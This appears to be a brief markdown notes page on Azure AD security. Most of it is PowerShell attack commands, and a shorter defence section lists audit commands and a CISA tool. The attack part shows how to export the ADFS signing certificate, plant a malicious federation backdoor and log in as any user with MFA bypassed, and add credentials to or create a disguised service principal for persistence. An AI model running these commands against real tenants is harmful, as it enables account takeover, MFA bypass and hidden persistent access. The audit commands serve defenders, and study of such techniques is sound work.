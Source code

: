 # AzureAD Security 

Quick notes on Azure AD security  

## Setting up a lab

## Attacks

### Export ADFS certificate
Export-AADIntADFSSigningCertificate -filename ADFSSigningCertificate.pfx  

#### More info 

$ADFS = Get-WmiObject -Namespace root/ADFS -Class SecurityTokenService  
$conn = $ADFS.ConfigurationDatabaseConnectionString  
$SQLclient = new-object System.Data.SqlClient.SqlConnection -ArgumentList $conn  
$SQLclient.Open()  
$SQLcmd = $SQLclient.CreateCommand()  
$SQLcmd.CommandText = "SELECT ServiceSettingsData from IdentityServerPolicy.ServiceSettings"  
$SQLreader = $SQLcmd.ExecuteReader()  
$SQLreader.Read() | Out-Null  
$settings=$SQLreader.GetTextReader(0).ReadToEnd()  
$SQLreader.Dispose()  
\[xml\]$xml=$settings  

### Adding a malicious federation trust
Get-AADIntAccessTokenForAADGraph -savetocache                                                                       
ConvertTo-AADIntBackdoor -domain maliciousdomain.com     
get-msoluser | select UserPrincipalName, ImmutableId  
Open-AADIntOffice365Portal -ImmutableID $id -UseBuiltInCertificate -ByPassMFA $true -Issuer ISSUER  

(AuditLogs | where OperationName =~ "Set domain authentication")  

## Adding credentials to a service principle 

### Certificate 
$cert = New-SelfSignedCertificate -dnsname some.domain.com -CertStoreLocation cert:\LocalMachine\My -Provider “Microsoft Enhanced RSA and AES Cryptographic Provider”  
$keyValue = [System.Convert]::ToBase64String($cert.GetRawCertData())   
$sp = get-azureadserviceprincipal -searchstring SEARCHSTRING  
New-AzureADServicePrincipalKeyCredential -objectid $sp.ObjectId -EndDate "01-01-2022 12:00:00" -StartDate "01-03-2021 14:12:00" -CustomKeyIdentifier "Test" -Type AsymmetricX509Cert -Usage Verify -Value $keyValue  
Connect-AzureAD  -Tenant TENANTID -ApplicationID APPID -CertificateThumbprint CERTTHUMBPRINT  

### Password
New-AzureADServicePrincipalPasswordCredential -objectid $sp.ObjectId -EndDate "01-01-2030 12:00:00" -StartDate "04-04-2020 12:00:00"  -Value PASSWORD  

## Create a new service principle 
Get-AzureADServicePrincipal -all $true | Where-Object{$_.KeyCredentials -ne $null}  
$sp = New-AzADServicePrincipal -DisplayName 'MicrosoftSyncShare'  

## Defence 

### Auditing federation trusts
Connect-MsolService  
Get-MsolDomain | Select * / Get-AzureADDomain | Select *  
Get-MsolFederationProperty (need to run this for each domain)  

### Auditing service principles
Connect-AzureAD  
Get-AzureADServicePrincipal  
Get-AzureADServicePrincipal -all $true | Select *  
Get-AzureADServicePrincipal -all $true | Where-Object{$_.KeyCredentials -ne $null}  
Get-AzureADServicePrincipal -all $true | Where-Object{$_.PasswordCredentials -ne $null}  

### Sentinel connectors
AzureActiveDirectory  
SecurityEvents  
Office365  
Microsoft 365 Defender  

### Other useful commands
Get-AADIntLoginInformation -Domain domain.com  
Get-AzureADTenantDetail | Select *  

### Sparrow
https://github.com/cisagov/Sparrow/blob/develop/Sparrow.ps1  
Invoke-WebRequest 'https://github.com/cisagov/Sparrow/raw/develop/Sparrow.ps1' -OutFile 'Sparrow.ps1' -UseBasicParsing  


